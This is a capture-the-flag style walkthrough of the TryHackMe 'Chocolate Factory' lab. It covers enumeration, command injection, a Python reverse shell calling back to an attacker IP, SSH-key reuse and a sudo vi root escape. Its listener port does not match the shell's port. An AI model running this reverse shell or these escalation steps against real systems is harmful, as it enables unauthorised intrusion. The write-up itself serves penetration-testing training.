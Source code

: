 

## Proof of Concept: Exploiting Chocolate Factory Lab (TryHackMe)

### Overview

This PoC targets the **Chocolate Factory** lab environment on TryHackMe ([https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)), a vulnerable machine designed to teach penetration testing techniques. The lab involves gaining initial access via command injection and escalating privileges to a user account using SSH keys. The process includes network scanning, web enumeration, exploitation of vulnerabilities, and privilege escalation. Root access steps are outlined but not fully executed in this PoC.

---

### Proof of Concept (PoC)

This PoC demonstrates how to gain initial access to the Chocolate Factory machine as the `www-data` user and escalate privileges to the `charlie` user. The process involves network enumeration, exploitation of a command injection vulnerability, and privilege escalation using SSH keys.

#### Part A: Gaining Initial Access

##### Step 1: Network Enumeration with Nmap
- Scanned the target machine to identify open ports and services:  
  ```bash
  nmap -T4 -sV -A 10.10.12.204
  ```
  - **Result**: Identified two open ports:  
    - Port 21 (FTP) - Allows anonymous login.  
    - Port 80 (HTTP) - Hosts a web application.  
  - **Screenshot**: Nmap Scan Results  
    ![Nmap Scan](https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c)

##### Step 2: Explore FTP (Port 21)
- Connected to the FTP server using anonymous login:  
  ```bash
  ftp 10.10.12.204
  ```
- Downloaded a file named `gum_room`.  
  - **Screenshot**: FTP Login and File Download  
    ![FTP Download](https://github.com/user-attachments/assets/ef7fc003-7fd9-4f0f-9684-7ec8988b2df4)
  - **Screenshot**: Downloaded File (`gum_room`)  
    ![Downloaded File](https://github.com/user-attachments/assets/39218184-a257-44b5-9826-ecdcd8ec7f1d)
- **Note**: The contents of `gum_room` were not analyzed in this PoC but may contain hints for further exploitation.

##### Step 3: Explore the Web Application (Port 80)
- Accessed the website at `http://10.10.12.204`.  
  - **Screenshot**: Website Homepage with Login Form  
    ![Homepage](https://github.com/user-attachments/assets/88eac3bd-6883-4760-a27f-67bc0fafd0b0)
- Inspected the source code and identified a link to `validatee.php`, confirming the website runs on PHP.

##### Step 4: Directory Enumeration with FFUF
- Performed directory brute-forcing to uncover hidden pages:  
  ```bash
  ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.204/FUZZ -e .php,.html
  ```
  - **Result**: Discovered directories and files, including `home.php` and `index.html`.  
  - **Screenshot**: FFUF Results  
    ![FFUF Results](https://github.com/user-attachments/assets/5d46e6f6-472b-4618-a95b-b9326c204f07)

##### Step 5: Exploit Command Injection on `home.php`
- Navigated to `http://10.10.12.204/home.php` and discovered a command execution functionality.  
  - **Screenshot**: Command Functionality on `home.php`  
    ![Command Functionality](https://github.com/user-attachments/assets/7e8555a3-049a-4558-aa7c-c8305eaa9b4c)
- Tested for command injection by running:  
  ```
  cat /etc
  ```
  - **Result**: The server responded with directory contents, confirming a command injection vulnerability.  
  - **Screenshot**: Command Injection Confirmation  
    ![Command Injection](https://github.com/user-attachments/assets/8c73edae-6c13-4884-8868-df07f4aef56d)

##### Step 6: Gain a Reverse Shell
- Verified the presence of a Python binary on the server:  
  ```
  which python3
  ```
- Executed a Python reverse shell command to connect back to the attacker machine:  
  ```bash
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- Set up a Netcat listener on the attacker machine:  
  ```bash
  nc -nlvp 2249
  ```
- **Result**: Successfully obtained a reverse shell as the `www-data` user.  
  - **Screenshot**: Reverse Shell  
    ![Reverse Shell](https://github.com/user-attachments/assets/eb87dc55-adaa-46cc-9b3d-5ca84aaad3db)

#### Part B: Privilege Escalation to `charlie` User

##### Step 1: Enumerate Files as `www-data`
- Explored the current directory and found a file named `key_rev_key`.  
- Used the `strings` command to extract readable content from `key_rev_key`:  
  ```bash
  strings key_rev_key
  ```
  - **Result**: Discovered a key (likely an SSH key or password).  
  - **Screenshot**: Contents of `key_rev_key`  
    ![Key Content](https://github.com/user-attachments/assets/af1530b0-29d1-4246-a24c-22a9777c0180)

##### Step 2: Identify User Accounts
- Listed user accounts on the system:  
  ```bash
  cat /etc/passwd
  ```
- **Result**: Identified a user named `charlie`.

##### Step 3: Access Charlie’s Home Directory
- Navigated to `/home/charlie` and found files: `telport` and `telport.pub`.  
  - **Screenshot**: Contents of Charlie’s Home Directory  
    ![Charlie's Directory](https://github.com/user-attachments/assets/fc896cf9-6549-4345-90e2-ecf7d2debc0c)
- **Finding**: The `telport` file contains a private SSH key.

##### Step 4: Use SSH Key to Escalate to `charlie`
- Copied the `telport` private SSH key to the attacker machine and saved it as `charley`.  
- Used the key to log in as `charlie` via SSH:  
  ```bash
  ssh charlie@10.10.12.204 -i charley
  ```
- **Result**: Successfully logged in as `charlie`.  
  - **Screenshot**: Successful SSH Login  
    ![SSH Login](https://github.com/user-attachments/assets/6cd2fc4f-ff14-4f8d-b632-d71b9e41ebf9)
- Found the user flag in `/home/charlie`.

#### Part C: Path to Root Access (To Be Completed)
- **Steps for Root Access**:  
  1. Check for sudo privileges:  
     ```bash
     sudo -l
     ```
     ![image](https://github.com/user-attachments/assets/4cab7dad-abf8-44d9-838a-755246eee5a4)

  2. This showed that  `vi` is allowed, and we can escalate to root:  
     ```bash
     sudo /usr/bin/vi
     ```
     Within `vi`, execute:  
     ```
     !/bin/bash
     ```
     ![image](https://github.com/user-attachments/assets/736ddfc1-0038-4848-9058-b1267e3f7507)


---

### Summary of Findings

- **Initial Access**: Exploited a command injection vulnerability on `home.php` to gain a reverse shell as `www-data`.  
- **Privilege Escalation**: Used a private SSH key (`telport`) found in `/home/charlie` to escalate privileges to the `charlie` user and retrieve the user flag.  
- **Vulnerabilities Identified**:  
  - Anonymous FTP access exposes potentially sensitive files.  
  - Command injection in the web application allows arbitrary command execution.  
  - Insecure storage of SSH keys enables privilege escalation.

---

### Conclusion

This PoC demonstrates the successful compromise of the Chocolate Factory lab machine by gaining initial access via command injection and escalating privileges to the `charlie` user using an exposed SSH key. The lab highlights critical vulnerabilities such as command injection and improper key management, which can lead to unauthorized access and privilege escalation. Immediate remediation is recommended, including sanitizing user inputs, disabling anonymous FTP access, and securing SSH keys with proper permissions.

---



